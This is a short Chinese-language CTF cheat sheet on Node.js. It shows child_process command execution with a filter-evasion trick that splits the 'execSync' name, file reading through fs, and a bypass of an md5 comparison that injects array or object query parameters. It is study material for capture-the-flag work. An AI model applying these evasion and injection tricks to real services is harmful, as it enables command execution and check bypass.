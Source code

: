 ```yaml
---
weight: 999
title: "NodeJs"
description: ""
icon: "article"
date: "2025-05-29T16:38:45+08:00"
lastmod: "2025-05-29T16:38:45+08:00"
draft: false
toc: true
---
```

# 命令执行
```js
require('child_process').exec('ls'); //返回值是child_process，不能转字符串
require('child_process').execSync('ls').toString(); //返回值是字符串
require('child_process').spawnSync('ls').stdout.toString();// 返回object，toString转成字符串
//绕过简单的限制
require('child_process')['exe'+'cSync']('ls').toString()
```
不用`child_process`读取文件
```js
__filename //获取当前文件的绝对路径
__dirname //获取当前文件解析过后的文件夹的绝对路径
require('fs').readFileSync(__filename,'utf-8'); //读取当前文件
require('fs').readdirSync('.') //读取当前目录下所有文件
```
# md5
```js
if(a && b && a.length===b.length && a!==b && md5(a+flag)===md5(b+flag))
```
>传入a[]=1&b[]=2
>得到的是['1']和['2']
>而nodejs中数组和字符串的拼接如下：

```js
console.log(5+[6,6]); //56,6
console.log("5"+6); //56
console.log("5"+[6,6]); //56,6
console.log("5"+["6","6"]); //56,6
```

>则['a']+flag== 'a'+flag

如果传入的是非数字索引，比如`[x]=1`，那么就会变为js的对象`{x:'1'}`
```js
let a={
    x:'1'
}
console.log(a+"flag{123}")
//返回的是： [object Object]flag{123}
```
>所以传入a[x]=1&b[x]=1也能绕过，此时`a!==b`比较的是内存地址，而不是键值。
